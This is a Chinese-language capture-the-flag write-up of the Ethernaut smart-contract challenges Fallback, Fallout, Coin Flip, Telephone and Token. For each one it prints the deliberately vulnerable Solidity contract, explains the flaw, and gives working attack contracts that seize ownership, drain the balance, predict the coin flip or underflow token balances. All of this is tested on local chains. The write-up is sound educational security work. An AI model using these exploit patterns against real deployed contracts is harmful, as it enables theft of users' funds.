

[TOC]


# Fallback

## 漏洞代码

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

目标:

Look carefully at the contract's code below.

You will beat this level if

1. you claim ownership of the contract   获取合约的所有权
2. you reduce its balance to 0  窃取所有余额

 Things that might help

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see `help()` command)
- Fallback methods

## 分析&攻击

结合合约代码和目标看，withdraw()可以提取所有余额，但是用onlyOwner修饰过，只允许owner调用，因此只需要让owner变成我们自己就能达到两个目标。总共三个修改这个变量的地方，constructor()、contribute()和receive()

（1）constructor()是构造函数，我们调用不了；

（2）contribute()是public，可以调用，但是有条件，贡献的币必须比原有owner贡献的高，然而owner部署合约的时候就贡献了1000eth，每次贡献的msg.value还被限制必须 < 0.001 ether，所以要走到if(contributions[msg.sender] > contributions[owner])，得调用1000/0.001次contribute，显然不行

（3）receive()是收到转账是触发，满足msg.value > 0 && contributions[msg.sender] > 0就能让owner = msg.sender;

因此先贡献一点点eth，然后给漏洞合约转账，就能满足这个条件

攻击合约代码：

```
contract Attack{
    Fallback public fb; // Fallback合约地址

    // 初始化Fallback合约地址
    constructor(Fallback _fb) payable {
        fb = _fb;
    }
    // 先贡献然后转钱 要满足require(msg.value > 0 && contributions[msg.sender] > 0);这个条件
    function contributeIt() external payable{
        fb.contribute{value:1}();
    }
    function attackIt() external payable{
        //fb.contribute{value:1}();
        (bool isSuccess, /* memory data */ ) = payable(address(fb)).call{value: 1 wei}("");
        require(isSuccess, "Failure! Ether not send.");
    }
    //最后窃取漏洞合约所有的币
    function withdrawIt() external payable{
        fb.withdraw();
    }
    receive() external payable {
        
    }
}
```

我们用remix简单测试下

先用第一个账户部署Fallback合约


可以看到当前owner是0x5B38Da6a701c568545dCfcB03FcB875f56beddC4这个账户，贡献值很高


此时记住Fallback合约的地址（0xDA0bab807633f07f013f94DD0E6A4F96F8742B53），然后用第二个账户部署Attack合约，给第二个合约打点初始资本（这里给了10000wei），用于后面给Fallback合约做贡献


先满足第一个条件，让贡献值大于0


然后执行attackIt


可以看到owner已经变成我们attack合约的地址了，然后执行withdrawIt就能提取所有贡献的币


# Fallout

## 漏洞代码

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
//import 'openzeppelin-contracts-06/math/SafeMath.sol';
//这里修改了一下，上面的导入方式remix貌似不识别
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.0.0/contracts/math/SafeMath.sol";

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```


## 分析&攻击

目标和fallback一样 获取所有权

合约名是Fallout  但是构造函数时Fal1out 写错了，因此可以直接调用Fal1out

因此随便换个人执行下fal1out就能改变owner


# Coin Flip

## 漏洞代码

```
题目提示：这是一款抛硬币游戏，您需要通过猜测抛硬币的结果来建立连胜。 要完成此关卡，您需要使用您的心灵能力连续 10 次猜测正确的结果
```

```
//题目代码
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

## 分析&攻击

代码比较简单，consecutiveWins是记录胜利次数的，输入bool _guess，和根据区块地址随机计算的side值比对，如果猜对了就consecutiveWins递增，错了consecutiveWins归零

看flip函数代码发现用的blockhash函数，`blockhash(block.number-1)`作为种子来获取随机数，容易想到是伪随机带来的风险，参考：

https://github.com/AmazingAng/WTF-Solidity/blob/main/S07_BadRandomness/readme.md

https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random


攻击代码也很简单，直接把漏洞代码里面的随机数计算复制一遍，因为`attackMint()`和`flip()`将在同一个区块中调用，`blockhash`和`block.timestamp`是相同的，利用他们生成的随机数也相同。

```
contract Attack {
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    function attackMint(CoinFlip nftAddr) external {
        // 提前计算随机数
        uint256 blockValue = uint256(blockhash(block.number - 1));
        if (lastHash == blockValue) {
            revert();
        }
        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool mySide = coinFlip == 1 ? true : false;
        // 利用 计算的 攻击
        nftAddr.flip(mySide);
    }
}
```

复现过程：

（1）我们用anvil启动一个本地链，5s生成一个新区块（据说 Remix 自带的 Remix VM不支持 `blockhash`函数，我没试，我直接本地测比较保险，因为remix vm还有其他bug）：

```
anvil --block-time 5
```


remix ide的env选本地的


（2）然后正常部署两个合约，你可以先试试手动flip，是很难纯靠猜连胜十次的，但是可以通过attackMint函数一直连胜，可以看到我现在就十连胜了，满足题目要求了


attackMint函数可能提示这个，暂时不用管，不影响复现


# Telephone

## 漏洞代码

```
题目要求：声明以下合同的所有权以完成此级别。
```

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```


## 分析&攻击

能改owner的就在changeOwne()函数里面，条件tx.origin != msg.sender满足时就会将owner改成address _owner参数的值，

因此我们就要看下怎么满足这个条件

这里我们借用wtf-solidity项目的图来解释一下这两个东西：tx.origin和msg.sender

https://github.com/AmazingAng/WTF-Solidity/tree/main/S12_TxOrigin


很明显，要满足条件，就需要借助一个中间合约（图中合约B），然后随便一个用户A点击一下，就能满足tx.origin != msg.sender

因此攻击代码无需很复杂，获取漏洞合约的地址，然后调用changeOwner()函数地址，我这里直接将Owner改成msg.sender，对于Attack来说msg.sender就是调用他的用户，你也可以随便换个其他的地址

```
contract Attack {
    Telephone public tele;

    constructor(Telephone _tele) {
        tele = _tele;
    }

    function attackTele() public {
        tele.changeOwner(msg.sender);
    }

}
```


我们先用用户1 部署Telephone合约，看到owner是用户1的地址0xf39....



然后用户2部署Attack合约，点击attackTele之后，再看合约Telephone的owner地址，已经变成用户2的0x709...了


# Token

## 漏洞代码

```
题目要求：此级别的目标是让您破解下面的基本代币合约。
一开始你会得到 20 个代币，如果你能设法获得任何额外的代币，你就能通关。 最好是非常大量的代币。
```

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

## 分析&攻击

这个合约一开始创建的时候会让你指定一个初始的代币值，根据提示是要获取额外的代币，能改余额的也就transfer()函数了，

看到uint256做运算，很容易想到整数溢出，因为uint没有负数，require怎么都会满足

solidity 0.8.0 版本之后会自动检查整型溢出错误，所以用0.6.0测试的

这里用20代币初始部署测试一下：


这里我们随便找个地址转账0x709...，金额大于20就行


然后看看我们账户的余额，已经是非常大了：


